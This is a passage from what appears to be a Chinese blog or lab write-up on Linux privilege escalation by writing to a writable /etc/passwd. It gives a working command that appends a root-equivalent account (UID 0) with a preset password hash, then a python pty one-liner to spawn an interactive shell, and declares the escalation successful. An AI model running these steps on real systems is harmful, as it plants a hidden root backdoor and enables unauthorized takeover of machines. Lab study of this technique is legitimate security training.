 只需将passwd文件中root的信息的用户名和加密密码修改，就可以创建一个和root权限相同的用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213233004923.png)

```
echo 'ming:aaAN1ZUwjW7to:0:0:garmin:/root:/bin/bash'>> /etc/passwd
```

使用python重新调用一个shell，并且切换到新的用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213233043100.png)
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

提权成功

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213233118215.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
